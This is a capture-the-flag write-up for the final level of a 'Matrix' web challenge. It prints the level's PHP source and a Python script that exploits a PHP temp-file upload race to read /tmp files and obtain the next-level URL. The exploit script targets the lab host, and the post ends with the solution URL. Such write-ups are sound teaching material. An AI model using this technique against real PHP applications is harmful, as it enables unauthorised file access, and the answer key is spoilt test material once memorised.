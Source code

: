 # Level-30

Level30(Final) (https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/)

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if (isset($_GET["show-me-more"])) {
    print_r(scandir("/tmp/"));
    die();
}

function security_check($input)
{
    $pattern = '/^\/tmp\/[0-9a-zA-Z]+$/';
    if (preg_match($pattern, $input)) {
        return True;
    }
    return False;
}

if (security_check($_GET['code'])) {
    $file_contents = file_get_contents($_GET['code']);
    if (strpos($file_contents, 'escape_from_matrix') === 0) {
        require_once('next.php');
        die($next);
    }
}

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Check if there is a file selected
    if (isset($_FILES["file"])) {
        $file = $_FILES["file"];

        // File details
        $fileName = $file["name"];
        $fileType = $file["type"];
        $fileSize = $file["size"];
        $fileTmpName = $file["tmp_name"];
        $fileError = $file["error"];

        $you_are_god = False;
        if ($you_are_god === True) {

            $uploadDir = "uploads/";
            if (!file_exists($uploadDir)) {
                mkdir($uploadDir, 0755, true);
            }

            $destination = $uploadDir . $fileName;
            if (move_uploaded_file($fileTmpName, $destination)) {
                echo "File uploaded successfully.";
            } else {
                echo "Error uploading file.";
            }
        }

        die('you are not the God');
    }
}

?>
```


according to the code we need these conditions:

- parameter `code` shoud start with `/tmp/`
- content of the file must begin with `escape_from_matrix`
- we need to upload a file to server
- we should immediately send the request to `https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more`
- we should get all the array values and send another request to get /tmp/ files

the python code :

```python
import requests
import re

main_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/'

myfile = open("test.txt", "rb")

test_upload = requests.post(main_url, files={'file':myfile})
if test_upload.ok:
    print('uploaded')
print(test_upload.text)


show_me_more_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more'
respons = requests.get(show_me_more_url)
print(respons.text)

chunks = re.findall('php.*',respons.text)

print(chunks)

for i in chunks:
    l_resp = requests.get(f'{main_url}?code=/tmp/{i}')
    print(l_resp.text)
```


  

https://matrix.voorivex.academy/yOu-havE-jUst-escaped-the-Matrix!/
